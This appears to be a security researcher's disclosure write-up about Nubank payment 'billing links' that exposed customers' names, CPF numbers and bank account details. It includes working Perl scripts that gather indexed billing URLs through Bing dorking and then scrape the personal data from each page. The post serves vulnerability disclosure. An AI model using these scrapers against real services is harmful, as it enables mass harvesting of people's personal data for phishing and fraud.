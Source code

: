 ```yaml
---
layout: content
title: 'A little case about scraping personal data exposure in the web'
description: 'Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.'
og_image: https://heitorgouvea.me/images/publications/research/nubank/google-dorks.png
---
```


### Summary

Between the use and some tests that I always end up running on the applications I have installed on my Smartphone, I ended up bumping into a very interesting feature of Nubank, which allows the user to create a "billing link" and send that link to one or more people to charge. I found the functionality very useful, but when I saw up close how it worked, I was a little uncomfortable in view of the number of scenarios that that implementation could be exposed... With this intrinsic dissatisfaction, I decided to generate some proof of concepts and share them with the company so that they could re-evaluate the design of the functionality and it turned out that in this quick and simple demonstration I was able to map some personal data (CPF, Full Name, Account Number and Agency) of more than 100 customers.

---

### Disclaimer

The responsible company was informed about all details contained in this publication in the shortest possible time and it positioned itself in an ethical and transparent manner, demonstrating due attention and commitment. During all tests, no system was invaded or breached, in addition, the company performed all necessary actions/modifications to minimize any undue action that explores the context covered in this publication.

---

### Description

Within the Nubank mobile application, there is a feature called "Charge", this feature comes down to you filling in a value of your desire (if you want) and clicking confirm:

![](/images/publications/research/nubank/creating-a-link.png)

After that, a QR Code is generated and you have the option to share it or send the bill through another application, such as WhatsApp:

![](/images/publications/research/nubank/whatsapp-shared-link.png)

When I came across this link (the content of the QR Code is also the link), I decided to open it in the browser to take a look and this was the result:

![](/images/publications/research/nubank/personal-infos.png)

I came across my full name, CPF, my bank account number and branch exposed without any kind of control, the only requirement to get my information through Nubank was to have such a URL.

Such URL is generated exclusively by the client in your application and it is also up to the client to define how and with whom to share each generated URL.

Convinced to analyse whether this was really possible, I decided to create a * dork * to try to find more of these URLs, this time exposed on the Internet and this was the result:

![](/images/publications/research/nubank/google-dorks.png)

Surprised by the fact that Nubank allowed Google and other search engines to index these pages, I decided to validate that such URLs were being published on other channels, and the first channel I decided to validate was Twitter:

![](/images/publications/research/nubank/twitter-links.png)

And these are just some of the results, on Twitter you could see that some people use this functionality to receive donations and others use it in very general ways...

---

### Proof of Concept

Convinced to demonstrate an impact of the abuse of this functionality, I decided to create a proof of concept. The first part of this PoC boiled down to building code that would be able to use a search engine to collect as many URLs as possible, so I did a simple *scraper* for Bing:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw( url_escape);
# use Mojo::UserAgent;

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        my $mech = WWW::Mechanize -> new();
        my %seen = ();

        $dork = url_escape($dork);

        for my $page (0 .. 10) {
            my $url = "http://www.bing.com/search?q=${dork}&first=${page}0";
            $mech -> get($url);
            my @links = $mech -> links();
                        
            foreach my $link (@links) {
                $url = $link -> url();
                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

main();
exit;
```

From that code, I was able to collect 100 valid URLs:

![](/images/publications/research/nubank/file-with-the-urls.png)

After having all these URLs in a .txt, I had to build another *scraper* that scraped data on the Nubank page:

```perl
#!/usr/bin/env perl

use 5.018;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp($_);

            my $userAgent = Mojo::UserAgent -> new();
            my $response  = $userAgent -> get($_) -> result();

            if ($response -> is_success()) {
                my $account = $response -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close($urls_filehandle);
    }
}

main();
exit;
```

And this was the result:

![](/images/publications/research/nubank/collect-with-names-cpfs.png)

CPF, Full name, account number and branch of more than 100 people, in just a few minutes and a few lines of code.

---

### Impact

The possibility of an attacker abusing this functionality available within Nubank systems is relatively high, as it can expose a huge amount of users, leaking some sensitive information as illustrated above, in addition an attacker who has such information at hand, can use it to strengthen/create a social engineering approach.

---

### Conclusion

Through this analysis it is possible to affirm that a convinced person could implement several *scrapers* in order to map Nubank billing URLs and later collect personal information present in them. This article had PoC as one of those implementations, using a search engine, but there is still room for other channels, such as social networks (Twitter, Facebook and others). What could be used to take these people to exposure or risk scenarios, such as being victims of *spear phishing*/social engineering.

---

### References

[**https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure**](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)

[**https://en.wikipedia.org/wiki/Google_hacking**](https://en.wikipedia.org/wiki/Google_hacking)

[**https://en.wikipedia.org/wiki/Web_scraping**](https://en.wikipedia.org/wiki/Web_scraping)